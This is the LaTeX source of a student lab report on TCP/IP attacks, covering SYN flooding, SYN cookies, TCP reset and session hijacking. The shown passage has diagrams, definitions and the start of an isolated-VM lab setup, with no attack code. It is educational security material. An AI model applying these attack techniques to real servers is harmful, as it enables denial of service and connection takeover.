%\documentclass[12pt,notitlepage]{article}
\documentclass[a4paper,12pt]{article}
\usepackage[utf8]{inputenc}
\usepackage{graphicx}
\usepackage{verbatim}
\usepackage{amsthm}
\usepackage{amssymb}
\usepackage{pdfpages}
\usepackage{amsmath}
\usepackage{tikzsymbols}
\usepackage{mwe}
\usetikzlibrary{decorations.pathreplacing}
\usetikzlibrary{shapes}
\usepackage{mathtools}
\usepackage{enumitem}
\DeclarePairedDelimiter\ceil{\lceil}{\rceil}
\DeclarePairedDelimiter\floor{\lfloor}{\rfloor}

\usepackage{hyperref}
%\usepackage[T1]{fontenc}
\usepackage{url}
\usepackage{lipsum}
\usepackage{array}
\usepackage{multirow}
\usepackage{float}
\usepackage{lscape}
\usepackage{colortbl}
\newcolumntype{P}[1]{>{\centering\arraybackslash}p{#1}}
\usepackage[nottoc,numbib]{tocbibind}
\usepackage{fancyhdr}
\usepackage{hhline}
\usepackage[printonlyused]{acronym}

%\usepackage{txfonts}
\usepackage{lipsum,etoolbox}% http://ctan.org/pkg/{lipsum,etoolbox}
\usepackage{caption}
\usepackage{subcaption}

\usepackage{algorithm}
\usepackage[noend]{algpseudocode}

\makeatletter
\def\BState{\State\hskip-\ALG@thistlm}
\makeatother

\usepackage{minted}

\definecolor{black}{RGB}{0,0,0}

\usepackage{fancyvrb}

\usepackage{geometry}
\geometry{
	a4paper,
	total={170mm,257mm},
	right=3cm,
	left=3.5cm,
	top=3cm,
	bottom=3cm
}

\makeatletter
\DeclareRobustCommand{\rvdots}{%
	\vbox{
		\baselineskip4\p@\lineskiplimit\z@
		\kern-\p@
		\hbox{.}\hbox{.}\hbox{.}
}}
\makeatother
\usepackage{titlesec}
\usepackage{hyperref}
\titleclass{\subsubsubsection}{straight}[\subsection]

\newcounter{subsubsubsection}[subsubsection]
\renewcommand\thesubsubsubsection{\thesubsubsection.\arabic{subsubsubsection}}
\renewcommand\theparagraph{\thesubsubsubsection.\arabic{paragraph}} % optional; useful if paragraphs are to be numbered

\titleformat{\subsubsubsection}
{\normalfont\normalsize\bfseries}{\thesubsubsubsection}{1em}{}
\titlespacing*{\subsubsubsection}
{0pt}{3.25ex plus 1ex minus .2ex}{1.5ex plus .2ex}

\makeatletter
\renewcommand\paragraph{\@startsection{paragraph}{5}{\z@}%
	{3.25ex \@plus1ex \@minus.2ex}%
	{-1em}%
	{\normalfont\normalsize\bfseries}}
\renewcommand\subparagraph{\@startsection{subparagraph}{6}{\parindent}%
	{3.25ex \@plus1ex \@minus .2ex}%
	{-1em}%
	{\normalfont\normalsize\bfseries}}
\def\toclevel@subsubsubsection{4}
\def\toclevel@paragraph{5}
\def\toclevel@paragraph{6}
\def\l@subsubsubsection{\@dottedtocline{4}{7em}{4em}}
\def\l@paragraph{\@dottedtocline{5}{10em}{5em}}
\def\l@subparagraph{\@dottedtocline{6}{14em}{6em}}
\makeatother
\newcommand*\circled[1]{\tikz[baseline=(char.base)]{
		\node[shape=circle,draw,inner sep=2pt] (char) {#1};}}


\setcounter{secnumdepth}{4}
\setcounter{tocdepth}{4}
\newcommand{\und}{\underline{\hspace{.10in}}}
\begin{document}
	\begin{titlepage}
		\begin{center}
			\vspace*{9em}
			\Huge 
			MH4921\\ Supervised Independent Study II\\
			\vspace*{4em}
			\LARGE
			\textbf{TCP/IP Attack}\\		
			\vspace{4em}
			\textbf{Brandon Goh Wen Heng}\\
			\vspace*{4em}
			Academic Year 2018/19
			\vfill
		\end{center}
	\end{titlepage}
	
	\pagenumbering{roman}
	\tableofcontents
	\newpage
	\pagenumbering{arabic}
	\section{Introduction}
	A connection between two systems requires sending and receiving of three packets, namely \texttt{SYN}, \texttt{SYN+ACK} and \texttt{ACK} packets. \texttt{SYN} is an acronym for \textit{Synchronise} and is used to indicate that the system is attempting to initiate a new TCP session while \texttt{ACK} is the acronym for \textit{Acknowledgement}, to indicate that the endpoint has received the relevant data. For a connection to be established, the client initiates the request by sending a \texttt{SYN} packet. The server will reply with a \texttt{SYN+ACK} packet to the client and the client will likewise respond with the last \texttt{ACK} packet. During the period between the server receiving the \texttt{SYN} packet and the \texttt{ACK} packet, the operating system will maintain a queue with all the SYN entries that it is awaiting an \texttt{ACK} packet from. This queue is also known as the SYN queue and the size may vary, depending on the configuration of the server. Figure \ref{fig:TCPHandshake} shows in graphical form how systems establish a connection using the TCP protocol.
		\begin{figure}[!h]
		\centering
	
\begin{tikzpicture}
	\draw[fill=blue!10] (-2.15,1.15) rectangle (-0.85,0.25);
	\draw (-2.3,1.3) rectangle (-0.7,0.1);
	\draw (-1.1,0.1) rectangle (-1.9,-0.4);
	\draw (-2.1,-0.25) -- (-2.5,-0.6);
	\draw (-0.9,-0.25) -- (-0.5,-0.6);
	\draw (-2.5,-0.6) -- (-0.5,-0.6);
	\draw (-2.1,-0.25) -- (-1.9,-0.25);
	\draw (-0.9,-0.25) -- (-1.1,-0.25);
	\draw (-1.5,-1) node{Client};
	
	\draw (0, 3) -- (0,-2);
	\draw (4, 3) -- (4,-2);
	
	\draw[fill=green!10] (4.85,1.15) rectangle (6.15,0.25);
	\draw (4.7,1.3) rectangle (6.3,0.1);
	\draw (5.9,0.1) rectangle (5.1,-0.4);
	\draw (4.9,-0.25) -- (4.5,-0.6);
	\draw (6.1,-0.25) -- (6.5,-0.6);
	\draw (4.5,-0.6) -- (6.5,-0.6);
	\draw (4.9,-0.25) -- (5.1,-0.25);
	\draw (6.1,-0.25) -- (5.9,-0.25);
	\draw (5.5,-1) node{Server};
	
	\draw[->,>=stealth',line width=0.4mm] (0,2.6) -- (4,1.9);
	\draw (2,2.3) node[rotate=-11,yshift=0.2cm]{SYN};
	
	\draw[->,>=stealth',line width=0.4mm] (4,1.4) -- (0,0.7);
	\draw (2,1.1) node[rotate=11,yshift=0.2cm]{SYN+ACK};
	
	\draw[->,>=stealth',line width=0.4mm] (0,0.2) -- (4,-0.5);
	\draw (2,-0.1) node[rotate=-11,yshift=0.2cm]{ACK};
	
	\draw[line width=0.4mm] (0,-1.6) -- (4,-1.6);
	\draw (2,-1.6) node[xshift=0.5cm,yshift=0cm,text width=3cm]{Connection\\Established};
	\draw[fill=black] (0,-1.6) circle (1mm);
	\draw[fill=black] (4,-1.6) circle (1mm);
	
	\draw[->,>=stealth',line width=0.4mm] (8.1,3) -- (8.1,-2);
	\draw (8.8,0.5) node [xshift=0.5mm]{Time};
	\end{tikzpicture}
		\caption{Normal 3-step TCP Handshake}
		\label{fig:TCPHandshake}
\end{figure}
\\
When an attacker performs Denial-of-Service Attack (DoS Attack) or Distributed Denial-of-Service Attack (DDoS),  a common methodology is to use SYN flooding. This method involves the mass transmission of TCP packets with spoofed IP Addresses, leading the server to wait for \texttt{ACK} responses from multiple non-existent parties. While the server waits for these \texttt{ACK} responses, the server is unable to process any new requests until the old requests timeout. This congests the SYN queue and prevents new SYN requests from being processed. This significantly increases the response time of the server and prevents any legitimate clients from connecting to the server(s) resources. Figure \ref{fig:TCPHandshakeDOS} depicts the sequence for a SYN flooding attack.
		\begin{figure}[H]
	\centering
	
\begin{tikzpicture}
	\draw[fill=red!10] (-2.15,2.15) rectangle (-0.85,1.25);
	\draw (-2.3,2.3) rectangle (-0.7,1.1);
	\draw (-1.1,1.1) rectangle (-1.9,0.6);
	\draw (-2.1,0.75) -- (-2.5,0.4);
	\draw (-0.9,0.75) -- (-0.5,0.4);
	\draw (-2.5,0.4) -- (-0.5,0.4);
	\draw (-2.1,0.75) -- (-1.9,0.75);
	\draw (-0.9,0.75) -- (-1.1,0.75);
	\draw (-1.5,0) node{Attacker};
	
	
	\draw[fill=blue!10] (-5.15,2.15) rectangle (-3.85,1.25);
\draw (-5.3,2.3) rectangle (-3.7,1.1);
\draw (-4.1,1.1) rectangle (-4.9,0.6);
\draw (-5.1,0.75) -- (-5.5,0.4);
\draw (-3.9,0.75) -- (-3.5,0.4);
\draw (-5.5,0.4) -- (-3.5,0.4);
\draw (-5.1,0.75) -- (-4.9,0.75);
\draw (-3.9,0.75) -- (-4.1,0.75);
	\draw (-4.5,0) node{User};
	
	\draw (-4.45, -0.6) -- (-4.45,-8);
	\draw (-1.45, -0.6) -- (-1.45,-2.7);
	\draw (-1.45, -4.9) -- (-1.45,-6.1);
	\draw (-1.45, -7.35) -- (-1.45,-8);
	\draw (3.78, -0.6) -- (3.78,-8);
	
	\draw[fill=green!10] (3.05,2.15) rectangle (4.35,1.25);
	\draw (2.9,2.3) rectangle (4.5,1.1);
	\draw (4.1,1.1) rectangle (3.3,0.6);
	\draw (3.1,0.75) -- (2.7,0.4);
	\draw (4.3,0.75) -- (4.7,0.4);
	\draw (2.7,0.4) -- (4.7,0.4);
	\draw (3.1,0.75) -- (3.3,0.75);
	\draw (4.3,0.75) -- (4.1,0.75);
	\draw (3.7 ,0) node{Server};
	
	\draw[->,>=stealth',line width=0.4mm] (-1.45,-0.8) -- (3.78,-1.1);
	\draw[->,>=stealth',line width=0.4mm] (-1.45,-1.05) -- (3.78,-1.35);
	\draw[->,>=stealth',line width=0.4mm] (-1.45,-1.3) -- (3.78,-1.6);
	\draw[->,>=stealth',line width=0.4mm] (-1.45,-1.55) -- (3.78,-1.85);
	\draw[->,>=stealth',line width=0.4mm] (-1.45,-1.8) -- (3.78,-2.1);
	\draw[->,>=stealth',line width=0.4mm] (-1.45,-2.05) -- (3.78,-2.35);
	\draw (1.17,-0.68) node[rotate=-2]{SYN};
	
	\draw[densely dotted,line width=0.4mm] (3.78,-1.1) -- (5.2,-0.8);
	\draw[densely dotted, line width=0.4mm](3.78,-2.35) -- (5.2,-6);
	\draw(5.2,-0.8) -- (5.2,-6);
	\draw (8,-0.8) -- (8,-6);
	\draw (5.2, -4.6) rectangle node[text width=2.4cm] {\small{IP Address 1\\SYN\_RECV}} (8,-5.7);
	\draw (5.2, -3.5) rectangle node[text width=2.4cm] {\small{IP Address 2\\SYN\_RECV}} (8,-4.6);
	\draw (5.2, -1.1) rectangle node[text width=2.4cm] {\small{IP Address $x$\\SYN\_RECV}} (8,-2.2);
	\draw (5.2, -2.2) rectangle node[rotate=90] {$\cdots$}(8,-3.5);
	\draw (6.62,-6.8) node[align=center,text width=3cm] {Full SYN Queue\\on Server};
	
	\draw[->,>=stealth',line width=0.4mm] (3.78,-3) -- (0.2,-3.2);
	\draw[->,>=stealth',line width=0.4mm] (3.78,-3.25) -- (0.59,-3.45);
	\draw[->,>=stealth',line width=0.4mm] (3.78,-3.5) -- (0.68,-3.7);
	\draw[->,>=stealth',line width=0.4mm] (3.78,-3.75) -- (0.68,-3.95);
	\draw[->,>=stealth',line width=0.4mm] (3.78,-4) -- (0.55,-4.2);
	\draw[->,>=stealth',line width=0.4mm] (3.78,-4.25) -- (0.16,-4.45);
	\node[cloud, draw,cloud puffs=10,cloud puff arc=130, aspect=3, inner ysep=0.1cm, inner xsep=0.1cm, text width=2.4cm,align=center] at (-1.45,-3.8)  {Spoofed\\IP Addresses} ;
	\draw (2.07,-3.05) node[rotate=2,yshift=0.2cm]{SYN+ACK};
	
	\draw[->,>=stealth',line width=0.4mm] (-4.45,-5.2) -- (3.78,-5.9);
	\draw (-0.335,-5.55) node[rotate=-5,yshift=0.25cm]{SYN};
	
	
	\draw[->,>=stealth',densely dotted] (3.78,-6.6) -- (-4.45,-6.9);
	\draw (0.3,-6.76) node[rotate=2,text width=5cm]{No SYN+ACK transmitted \\as SYN queue full};
	\draw (-2.7,-6.84) node[rotate=2]{\LARGE \color{red}\textbf{$\times$}};
	
	
	\end{tikzpicture}
	\caption{3-step TCP Handshake disrupted during SYN flooding}
	\label{fig:TCPHandshakeDOS}
\end{figure}
\noindent \\However, there exists different methods to mitigate SYN flooding attacks. For the current report, the focus will be on the technique involving SYN cookies. With the enabling of this feature, the server will be made to think that the SYN queue has been enlarged (beyond its declared value) as each \texttt{SYN+ACK} and \texttt{ACK} packets will now be sent with additional data that has been encoded within the TCP packet, specifically the TCP sequence number. This TCP sequence number allows the server to recontruct the SYN request and as such does not require the server to maintain the same SYN queue state and frees up the queue for new SYN requests from other clients to be processed. The mathematical implementation has been omitted for simplicity.\\\\Other network attacks that can be implemented include TCP session hijacking, where an attacker injects a carefully crafted TCP packet containing  malicious code to take over or cripple an entire system. Figure \ref{fig:SessionHijacking} depicts a simplified graphical sequence on how the attack is executed.
		\begin{figure}[H]
	\centering
	
\begin{tikzpicture}
	\draw[fill=red!10] (-2.15,2.15) rectangle (-0.85,1.25);
	\draw (-2.3,2.3) rectangle (-0.7,1.1);
	\draw (-1.1,1.1) rectangle (-1.9,0.6);
	\draw (-2.1,0.75) -- (-2.5,0.4);
	\draw (-0.9,0.75) -- (-0.5,0.4);
	\draw (-2.5,0.4) -- (-0.5,0.4);
	\draw (-2.1,0.75) -- (-1.9,0.75);
	\draw (-0.9,0.75) -- (-1.1,0.75);
	\draw (-1.5,0) node{Attacker};
	
	
	\draw[fill=blue!10] (-5.15,2.15) rectangle (-3.85,1.25);
	\draw (-5.3,2.3) rectangle (-3.7,1.1);
	\draw (-4.1,1.1) rectangle (-4.9,0.6);
	\draw (-5.1,0.75) -- (-5.5,0.4);
	\draw (-3.9,0.75) -- (-3.5,0.4);
	\draw (-5.5,0.4) -- (-3.5,0.4);
	\draw (-5.1,0.75) -- (-4.9,0.75);
	\draw (-3.9,0.75) -- (-4.1,0.75);
	\draw (-4.5,0) node{User};
	
	\draw (-4.45, -0.6) -- (-4.45,-11);
	\draw (-1.45, -8) -- (-1.45,-11);
	\draw (7.78, -0.6) -- (7.78,-11);
	
	\draw[fill=green!10] (7.05,2.15) rectangle (8.35,1.25);
	\draw (6.9,2.3) rectangle (8.5,1.1);
	\draw (8.1,1.1) rectangle (7.3,0.6);
	\draw (7.1,0.75) -- (6.7,0.4);
	\draw (8.3,0.75) -- (8.7,0.4);
	\draw (6.7,0.4) -- (8.7,0.4);
	\draw (7.1,0.75) -- (7.3,0.75);
	\draw (8.3,0.75) -- (8.1,0.75);
	\draw (7.7 ,0) node{Server};
	
	\draw[->,>=stealth',line width=0.4mm] (-4.45,-1.6) -- (7.78,-1.6);
	\draw (1,-1.3) node[text width=10cm]{Sequence Number $x$};

	\draw[->,>=stealth',line width=0.4mm] (7.78,-3.1) -- (-4.45,-3.1);
	\draw (4.55,-2.58) node[align=right,text width=5.8cm]{Sequence Number $y$\\Acknowledgement Number $x+1$};
	
	\draw[->,>=stealth',line width=0.4mm] (-4.45,-4.6) -- (7.78,-4.6);
	\draw (-1,-4.08) node[text width=6cm]{Sequence Number $x+1$\\Acknowledgement Number $y+1$};
	
	\draw[->,>=stealth',line width=0.4mm] (-4.45,-6.1) -- (7.78,-6.1);
	\draw (-0.97,-5.45) node[text width=6cm]{Data:};
	\draw (0.21,-5.58) node[align=left,text width=5.8cm]{Sequence Number $x$$+$$1$ \\Acknowledgement Number $y+1$};
	
		\draw[<-,>=stealth',line width=0.4mm] (-4.45,-7.6) -- (7.78,-7.6);
	\draw (2.9,-6.95) node[text width=6cm]{Data:};
	\draw (4.21,-7.08) node[text width=6.5cm,align=right]{Sequence Number $y$$+$$1$ \\Acknowledgement Number $x$$+$$1$$+$$\alpha$};
	
		\draw[->,>=stealth',line width=0.4mm] (-1.45,-9.1) -- (7.78,-9.1);
	\draw (1.7,-8.57) node[text width=6cm]{\color{red} Spoofed:};
	\draw (3.7,-8.58) node[align=left,text width=6.5cm]{Sequence Number $x$$+$$1$$+$$\alpha$ \\Acknowledgement Number $y$$+$$1$$+$$\beta$};
	
	\draw[<-,>=stealth',line width=0.4mm] (-1.45,-10.6) -- (7.78,-10.6);
	\draw (2.5,-9.95) node[text width=6cm]{Data:};
	\draw (3.98,-10.08) node[text width=7cm,align=right]{Sequence Number $y$$+$$1$$+$$\beta$ \\Acknowledgement Number $x$$+$$1$$+$$\alpha$$+$$\varepsilon$};
	
	
	\end{tikzpicture}
	\caption{TCP Session Hijacking Process}
	\label{fig:SessionHijacking}
\end{figure}
\noindent Note: $x,y$ are arbitrary positive numbers that the system assigns to the packets while $\alpha,\beta,\varepsilon$ are some positive numbers, dependent on the size of the previously transmitted data packet.
	\section{Overview}
	\begin{par}
		This report highlights vulnerabilities present in the TCP/IP protocols and focuses on implementing common attacks such as DoS Attacks using SYN flooding techniques, TCP reset attacks and TCP session hijacking attacks. Understanding the reasons will allow users to avoid repeating the same mistakes that could result in costly maintenance and recovery.\\\\The report is structured as follows, the first task will involve SYN flooding attacks, to prevent the system from accepting and processing legitimate requests. Countermeasures against this form of attack will also be examined and how these measures will alleviate the current problems. Next, TCP RST Attacks on \texttt{telnet} and \texttt{ssh} connections will be examined. This attack is disruptive to any endpoint and will force any connection to be broken and prevents it from being established while the attack is in effect. It will be extended to real-world use where a (simulated) video-sharing site will be tested against this attack. The last part will look at TCP session hijacking, where packets can be carefully crafted to execute arbitrary code on the server while hiding one's identity.
		\end{par}
	\section{Definition\protect\footnote{\href{https://tools.ietf.org/html/rfc1594}{RFC 1594}}}
	\begin{enumerate}
		\item \textbf{Datagram}
		\begin{par}A self-contained, independent entity of data carrying sufficient information to be routed from the source to the destination computer without reliance on earlier exchanges between this source and destination computer and the transporting network. \textit{i.e., datagrams are transmitted between two points without any guarantee of delivery nor notification to the sender.}
		\end{par}
	\item \textbf{Packet}
	\begin{par}The unit of data sent across a network. "Packet" a generic term used to describe unit of data at all levels of the protocol stack, but it is most correctly used to describe application data units.\\\\For simplicity in this paper, the meaning of a network packet is assumed for both \textit{Datagrams} and \textit{Packets}.\end{par}
\item \texttt{Netstat\protect\footnote{\href{https://linux.die.net/man/8/netstat}{Linux man page - netstat}}}
\begin{par}
	\textbf{Net}work \textbf{stat}istics is a command-line utility that displays network connections, routing tables, interface statistics, masquerade connections and multicast memberships. This utility is available on Unix systems and Windows-NT based operating systems.\\\\On Linux, \texttt{netstat} is superseded by \texttt{ss} in the newer distributions and the switches \texttt{-r}, \texttt{-i}, \texttt{-g} have been replaced by the commands \texttt{ip route}, \texttt{ip -s link} and \texttt{ip maddr} respectively.\\\\For this report, \texttt{netstat -an} is frequently used and each state has been defined below for convenience.
	\end{par}
\begin{enumerate}
	\item \texttt{ESTABLISHED}
	\begin{par}
		The socket has an established connection.
		\end{par}
		\item \texttt{SYN\_SENT}
		\begin{par}
			The socket is actively attempting to establish a connection.
			\end{par}
		\item \texttt{SYN\_RECV}
		\begin{par}
			A connection request has been received from the network.
			\end{par}
		\item \texttt{FIN\_WAIT1}
		\begin{par}
			The socket is closed, and the connection is shutting down.
			\end{par}
		\item \texttt{FIN\_WAIT2}
		\begin{par}
			Connection is closed, and the socket is waiting for a shutdown from the remote end
			\end{par}
		\item \texttt{TIME\_WAIT}
		\begin{par}
			The socket is waiting after close to handle packets still in the network.
			\end{par}
			\item \texttt{CLOSED}
			\begin{par}
				The socket is not being used.
				\end{par}
			\item \texttt{CLOSE\_WAIT}
			\begin{par}
				The remote end has shut down, waiting for the socket to close.
				\end{par}
			\item {\texttt{LAST\_ACK}}
			\begin{par}
				The remote end has shut down, and the socket is closed. Waiting for acknowledgement.
				\end{par}
			\item \texttt{LISTEN}
			\begin{par}
				The socket is listening for incoming connections. Such sockets are not included in the output unless you specify the \texttt{--listening} or (\texttt{-l}) or \texttt{--all} or (\texttt{-a}) option.
				\end{par}
			\item \texttt{CLOSING}
			\begin{par}
				Both sockets are shut down but we still don't have all our data sent.
				\end{par}
			\item \texttt{UNKNOWN}
			\begin{par}
				The state of the socket is unknown.
				\end{par}
\end{enumerate}\end{enumerate}
	\newpage
	\section{Attack Sequence}
	\subsection{Virtual Machine (VM) Preparation}
	\vspace{1em}
	\begin{enumerate}
		\item{\textbf{Network Setup}}
		\begin{par}3 VMs are deployed to the same network using the provided Ubuntu 12.04 image. This network is isolated from the internet to prevent the generated packets from flooding the network card of the physical machine and the wider internet. The topography of the network with the respective IP addresses are reflected in Figure \ref{fig:Networksetup}.\end{par}
				\begin{figure}[H]
			\centering
			
\begin{tikzpicture}
			\draw[fill=red!10] (-1.05,2.15) rectangle (0.25,1.25);
			\draw (-1.2,2.3) rectangle (0.4,1.1);
			\draw (0,1.1) rectangle (-0.8,0.6);
			\draw (-1,0.75) -- (-1.4,0.4);
			\draw (0.2,0.75) -- (0.6,0.4);
			\draw (-1.4,0.4) -- (0.6,0.4);
			\draw (-1,0.75) -- (-0.8,0.75);
			\draw (0.2,0.75) -- (0,0.75);
			\draw (-0.4,-0.3) node[text width=3cm,align=center]{Attacker\\192.168.43.156};
			
			
			\draw[fill=blue!10] (-5.15,2.15) rectangle (-3.85,1.25);
			\draw (-5.3,2.3) rectangle (-3.7,1.1);
			\draw (-4.1,1.1) rectangle (-4.9,0.6);
			\draw (-5.1,0.75) -- (-5.5,0.4);
